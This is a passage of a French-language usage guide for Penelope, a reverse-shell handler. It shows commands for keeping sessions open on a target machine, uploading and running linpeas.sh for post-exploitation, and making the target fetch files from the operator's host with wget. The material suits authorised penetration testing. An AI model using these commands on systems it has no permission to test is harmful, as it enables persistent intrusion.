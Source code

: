 ***

### 📋 Scénarios d’Utilisation

***

#### Exemple 1 : Maintenir un Accès Constant à une Machine

Si vous souhaitez maintenir deux sessions actives avec une machine cible pour éviter toute perte d'accès, utilisez la commande suivante :

```bash
python3 penelope.py --maintain 2
```

Penelope régénérera automatiquement une nouvelle session si une des connexions est interrompue.

***

#### Exemple 2 : Exécuter des Scripts de Post-Exploitation

**a) Uploader un script de post-exploitation**

```bash
upload linpeas.sh /tmp
```

**b) Exécuter le script sur la machine cible**

```bash
run /tmp/linpeas.sh
```

* **Explication** :
  * `linpeas.sh` est un script d’énumération populaire pour identifier des failles ou des privilèges à exploiter.

***

#### Exemple 3 : Partager des Fichiers via le Serveur HTTP Intégré

1.  **Démarrer le serveur HTTP** sur votre machine :

    ```bash
    python3 penelope.py -s --port 8080
    ```
2.  **Télécharger le fichier depuis la cible** : Sur la machine cible, exécutez :

    ```bash
    wget http://<your_ip>:8080/file_to_download
    ```

***

### 📖 Bonnes Pratiques

#### 1. Obtenir des Autorisations Légales
